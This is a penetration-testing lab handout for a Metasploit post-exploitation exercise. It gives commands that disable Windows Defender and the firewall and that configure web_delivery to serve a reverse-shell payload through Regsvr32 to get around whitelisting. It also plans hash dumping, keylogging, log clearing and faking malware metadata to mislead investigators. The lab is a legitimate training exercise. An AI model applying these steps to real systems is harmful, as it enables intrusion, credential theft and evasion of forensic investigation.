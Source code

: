 In this lab, students will apply the concepts in the fourth video series called _Post-Exploitataton, Command-and-Control, and SOCKS proxying with Metasploit_ and perform the following tasks

- We will create malware using msfvenom
- Host the malware using Metasploit's "web_delivery" module and python "http.server" modules.
- Execute the malware on our Windows target to establish a reverse shell
- Upgrade our basic reverse shell to the versatile Meterpreter payload for command-and-control
- Use process migration to move to a more stable process that isn't likely to be closed by the victim.
- Use the Meterpreter to load additional functionality such as the Mimikatz
- Investigate manual and automatic privilege escalation opportunities
- Harvest credentials via dumping the local Security Account Manager (SAM) to retrieve password representations (hashes)
- Capture keystrokes to collect passwords
- Take screenshots
- Upload and download files
- Clear event logs
- Modify malware metadata to fool investigators
# Configure the Metasploit database

We configure the database in this lab because during post-exploitation, pentesters often compromise accounts, capture credentials and password representations (hashes), and storing them in the database keeps everything organized.

First login as _ROOT_ and create the file, using the following command:
`nano start_database.sh

Next, add the following commands to the file:

`service postgresql start msfdb reinit cp /usr/share/metasploit-framework/config/database.yml /root/.msf4/ service postgresql restart msfconsole`

Set the executable permission on the script and if the command is successful, run the database script.
`chmod +x start_database.sh && ./start_database.sh

Enable Metasploit console logging to capture all the input and output to the /root/console.log file by running the "spool" command along with the path and name of the file to save the output to.
`spool /root/console.log
# Configure the Windows Server

Navigate to the _Windows server machine_.

Next, we will make some changes to the Windows Server to make sure our Lab runs smoothly.

To log in as an administrator on Windows Server, click the Windows icon in the bottom left corner, then go to the user settings. Change the user to the _Administrator_ account and enter the default password, _123456_.

Check if _Windows Defender Anti-Virus_ is disabled.

Click on the Windows icon in the bottom left-hand corner and type _virus and threat protection_. Then, click on _Manage Settings_. Finally, click on _Real-time protection_ and turn it _OFF_ if needed.
Next, open _powershell.exe_.

To disable the Windows defender firewall, enter:
`netsh advfirewall set allprofiles state off

Next, let's set the windows _administrator_ password by typing the following command:
`net user Administrator Password12345
# Load the web_delivery module

Switch back to the _Kali VM machine_.

Since we will be creating some Windows 64-bit malware, we need a way to host it on the network and have the target machine download it. Metasploit has a useful module called the _web_delivery_ module that does just that.

Let's use the _web_delivery_ module _to host and deliver the malware_ on the network so the Windows target can access it.

Start by loading the module, by using the following command:
`use exploit/multi/script/web_delivery
### Configure the web_delivery module

Next, let's set the options for our _web_delivery_ module.
`set LHOST eth0

The URIPATH option is the URL that the victim will visit. If you set the URIPATH to _/admin/login/_ then the attacker would visit the URL` http://attacker.com/admin/login/`. Lets set this to / for now to keep things simple.
`set URIPATH /

Since the default payload does not work with the _web_delivery_ module, we will use a simple Windows reverse shell for now.
`set PAYLOAD windows/x64/shell/reverse_tcp

Next, let's take a look at the available TARGET options.
`show targets

Let's use the Regsvr32 target option to 3.
`set TARGET 3

Regsvr32.exe is often used by attackers and penetration testers to bypass application whitelisting, where only approved programs are permitted to run. Regsvr32.exe is an approved Microsoft binary and can be used to execute the code of an attacker's choosing.

Confirm you set the target correctly by typing _options_. It should list the target as Regsvr32.

Finally, type the following command to launch the module.

run

> Verify the IP address configured for the listener.

---

What port does the module use to listen for incoming connections?